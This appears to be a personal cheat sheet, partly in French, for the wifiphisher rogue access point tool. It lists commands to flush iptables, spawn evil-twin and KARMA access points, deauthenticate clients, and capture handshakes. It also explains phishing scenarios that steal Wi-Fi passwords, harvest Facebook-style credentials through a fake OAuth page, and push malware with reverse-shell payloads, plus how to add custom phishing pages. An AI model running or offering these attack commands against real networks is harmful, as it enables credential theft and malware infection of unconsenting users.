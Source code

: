 # wifiphisher

```sh
apt install wifiphisher || https://github.com/wifiphisher/wifiphisher
```
Purger iptables avant lancement:

```sh
sudo iptables -X
sudo iptables -F
sudo iptables -P INPUT ACCEPT
sudo iptables -P FORWARD ACCEPT
sudo iptables -P OUTPUT ACCEPT
sudo wifiphisher 
```

## rogue AP avec 1 interface:

```sh
$ sudo wifiphisher -aI wlan0 -nE -p firmware-upgrade
```

## personnaliser l'attaque:

```sh
$ sudo wifiphisher -aI wlan0 -nE -p firmware-upgrade -pPD .
```

Run the tool by typing wifiphisher or python bin/wifiphisher (from inside the tool's directory).
By running the tool without any options, it will find the right  interfaces and interactively ask the user to pick the ESSID of the  target network (out of a list with all the ESSIDs in the around area) as  well as a phishing scenario to perform. By default, the tool will  perform both Evil Twin and KARMA attacks.

wifiphisher -aI wlan0 -jI wlan4 -p firmware-upgrade --handshake-capture handshake.pcap

Use wlan0 for spawning the rogue Access Point and wlan4 for DoS  attacks. Select the target network manually from the list and perform  the "Firmware Upgrade" scenario. Verify that the captured Pre-Shared Key  is correct by checking it against the handshake in the handshake.pcap  file.
Useful for manually selecting the wireless adapters. The "Firmware Upgrade" scenario is an easy way for obtaining the PSK from a password-protected network.

wifiphisher --essid CONFERENCE_WIFI -p plugin_update -pK s3cr3tp4ssw0rd

Automatically pick the right interfaces. Target the Wi-Fi with ESSID  "CONFERENCE_WIFI" and perform the "Plugin Update" scenario. The Evil  Twin will be password-protected with PSK "s3cr3tp4ssw0rd".
Useful against networks with disclosed PSKs (e.g. in conferences). The "Plugin Update"  scenario provides an easy way for getting the victims to download  malicious executables (e.g. malwares containing a reverse shell  payload).

wifiphisher --essid "FREE WI-FI" -p oauth-login -kB

Simply spawn an open Wi-Fi network with ESSID "FREE WI-FI" and  perform the "OAuth Login" scenario. Furthermore, mount the "Known  Beacons" Wi-Fi automatic association technique.
Useful against victims in public areas. The "OAuth Login" scenario provides a simple way for capturing credentials from social networks, like Facebook.
Following are all the options along with their descriptions (also available with wifiphisher -h):

## création de page:

copier les pages sous: /usr/lib/python2.7/dist-packages/wifiphisher/data/phishing-pages/

copier un dossier: reprendre les page et le fichier “config.ini”

appeller par le nom (dans le config.ini) avec l'option "-p"



